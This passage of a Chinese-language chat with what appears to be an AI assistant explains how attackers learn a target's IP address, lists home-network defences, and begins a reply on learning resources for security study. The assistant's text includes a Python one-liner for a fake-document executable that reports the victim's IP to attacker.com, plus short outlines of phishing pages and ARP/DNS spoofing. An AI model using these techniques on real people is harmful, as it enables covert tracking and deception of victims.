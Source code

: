 #### 1. **主动扫描（黑客常用，需技术基础）**

- **端口扫描**：Nmap 的`-sS`半开放扫描（隐蔽性强）、`-sU` UDP 扫描（发现 DNS、DHCP 等服务）。
- **漏洞扫描**：用 OpenVAS 检测目标是否存在可暴露 IP 的漏洞（如路由器的 UPnP 漏洞，自动映射公网 IP）。

#### 2. **被动获取（社工为主，成功率高）**

- **钓鱼网站**：搭建仿冒的登录页面（如仿微信、邮箱），用户输入后，后台记录其 IP 和位置（需配合 GeoIP 数据库）。
- **即时通讯诱导**：通过 QQ / 微信发送文件（如伪装成文档的 EXE 程序），文件运行后，自动向黑客服务器发送当前 IP（用 Python 简单实现：`requests.get('http://attacker.com/report?ip=' + socket.gethostbyname(socket.gethostname()))`）。

#### 3. **利用系统 “漏洞”（无需用户配合）**

- **ARP 缓存中毒**：在内网发送伪造的 ARP 报文，更新目标设备的 ARP 表，使其将网关流量转发到黑客 IP（如`192.168.1.5`），间接暴露位置。
- **DNS 欺骗**：篡改 DNS 解析结果，将`baidu.com`指向黑客服务器 IP，用户访问时自动连接到攻击者指定的地址。

### 五、**普通人的反制措施（关键防御点）**

1. **隐藏内网 IP（针对同一局域网攻击）**
   - 关闭设备的网络发现功能（Windows：控制面板→网络和共享中心→高级共享设置→关闭 “网络发现”）。
   - 使用 AP 隔离（路由器设置中开启 “客户端隔离”，防止同一 WiFi 设备互访）。
2. **防止公网暴露（针对外部攻击）**
   - 禁用路由器的 WPS 功能（防止弱密码爆破），关闭不必要的端口映射（如 BT 下载、远程桌面）。
   - 使用动态 DNS + 端口转发时，设置复杂的随机端口（如将 3389 映射到公网 9001 端口，减少扫描暴露）。
3. **识别钓鱼与社工攻击**
   - 不点击未知链接，文件后缀为`.exe`、`.bat`的文件谨慎下载（即使伪装成文档）。
   - 定期查看路由器的 DHCP 列表，确认是否有陌生设备（如 IP`192.168.1.200`，MAC 地址非自家设备）。

### 总结：黑客攻击的核心是 “定位→突破→控制”

- **IP 地址是定位的核心坐标**：内网攻击需目标的内网 IP（如`192.168.1.100`），外网攻击需公网 IP（如`202.100.1.50`），两者通过扫描、社工、漏洞利用获取。
- **工具是攻击的 “武器库”**：Nmap 用于扫描，Metasploit 用于漏洞利用，Arpspoof 用于内网渗透，本质都是围绕 IP 地址展开的定位与突破。

普通人无需精通黑客技术，但需明白：**隐藏 IP 暴露途径（如关闭不必要的网络功能、警惕钓鱼），比事后防御更重要**。网络安全的本质，就是 “让攻击者找不到你，或找到也突破不了”。

我现在获取这些知识是问你，但是没有你的情况下，你说那些学校的人，他怎么去学到这些知识的？有这种书籍吗？有这种直接的技术手段书籍吗？还是什么？有什么指导书之类的这种应该是对一些网络知识的总结，然后把它，只不过我们有一个指导方向，就是网络攻击这条方向，然后把适合网络攻击的方向的需要的一些，就是你的，需要哪些信息才能攻击，然后拿到这些信息然后汇总一个流程，把这些信息安插到某个流程里面，然后汇总出来是吧？也是对知识的一种方向性总结是吧？

> 已完成思考
>
> 用户现在问的是，没有我的情况下，学校的人怎么学习这些网络攻击相关的知识，有没有书籍或指导书。首先，我需要确认用户的需求是想了解学习路径和资源，特别是针对网络攻击和渗透测试的方向。用户可能是在规划自己的学习计划，或者对信息安全领域感兴趣，想知道从哪里获取系统的知识。
>
> 首先，我应该列举经典的书籍，分为基础、进阶和实战类。比如《计算机网络》这类基础书籍是必须的，因为网络攻击需要扎实的网络基础。然后进阶的书籍，比如《TCP/IP 详解》、《黑客大曝光》系列，这些书系统讲解攻击原理和技术。实战类的书籍比如《Metasploit 渗透测试指南》，结合工具讲解实战技巧。
>
> 接下来，用户提到 “技术手段书籍” 和 “指导方向”，需要区分理论和实践。除了书籍，还有在线平台如 Coursera、实验吧，以及开源工具如 Nmap、Metasploit 的官方文档。此外，CTF 比赛和开源项目也是重要的学习途径，比如参与夺旗赛可以提升实战能力。
>
> 还要考虑用户可能关心的学习路径，比如从基础网络知识开始，到掌握编程语言（Python、C），再到渗透测试框架和漏洞利用。需要强调理论与实践结合，比如使用虚拟机搭建测试环境，避免攻击真实系统。
>
> 另外，用户可能担心书籍的难度和适用性，所以需要推荐不同层次的书籍，从入门到进阶，同时提到一些权威认证如 CEH、OSCP，这些认证的备考资料也是很好的学习资源。
>
> 最后，总结学习方法，强调系统性学习、实践和参与社区，比如安全论坛、技术博客，保持持续学习的态度。确保回答结构清晰，资源丰富，帮助用户明确学习方向。
>
> 在信息安全和网络攻击领域，学习路径非常系统化，且有大量经典书籍、课程和实战资源可供参考。即使没有实时答疑，通过 “书籍 + 平台 + 实战” 的组合，完全可以掌握核心知识。以下是具体的学习资源和方法论，按阶段划分：
